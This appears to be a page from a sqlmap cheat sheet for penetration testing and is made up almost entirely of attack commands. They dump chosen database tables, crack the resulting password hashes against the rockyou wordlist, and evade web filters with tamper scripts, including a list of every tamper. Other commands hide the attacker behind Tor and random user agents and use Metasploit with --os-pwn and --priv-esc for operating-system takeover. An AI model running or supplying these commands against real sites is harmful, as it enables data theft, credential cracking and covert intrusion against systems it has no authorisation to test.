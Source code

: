 `$ sqlmap -u <URL> -p <parameter> -D <database_name -T <table_name> -C <column_name> --stop=<row_end_range> --dump`

`$ sqlmap -u <URL> -p <parameter> -D <database_name -T <table_name> -C <column_name> --start=<row_start_range> --stop=<row_end_range> --dump`

`$ sqlmap -u <URL> -p <parameter> -D <database_name -T <table_name> -C <column_name> --where "<column> = '<value>'" --dump`

`$ sqlmap -u <URL> -p <parameter> -D <database_name -T <table_name> -C <column_name> --where "<column> LIKE '%upload%'" --dump`

```
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q]
what dictionary do you want to use?
[1] default dictionary file '/pentest/exploitation/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[14:21:21] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] y
```

### Evasion

`$ sqlmap -u <URL> --tamper=<script_1>,<script_2>,<script_n>`

`$ sqlmap -u <URL> --random-agent --check-internet -o -f --crawl=10 -a --no-cast --level=5 --risk=3 --batch --output-dir=. --tamper=space2comment,randomcase,between`

`$ sqlmap -u <URL> --random-agent --check-internet --force-ssl --tor --check-tor -o -f --crawl=10 -a --no-cast --level=5 --risk=2 --batch --output-dir=. --tamper=space2comment,randomcase,between`

- **OS Access**

`$ sqlmap -u <URL> --random-agent --check-internet --force-ssl --tor --check-tor -o -f --crawl=10 -a --no-cast --level=5 --risk=2 --os-pwn --msf-path=/opt/metasploit-framework/ --priv-esc --batch --output-dir=. --tamper=space2comment`

## Stealth

- **Using TOR**

`$ sqlmap -u <URL> --check-tor --tor --tor-port=<custom_TOR_PORT>`

### Tamper Scripts

`$ sqlmap --list-tampers`

- **All scripts**

`--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,randomcomments,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords`
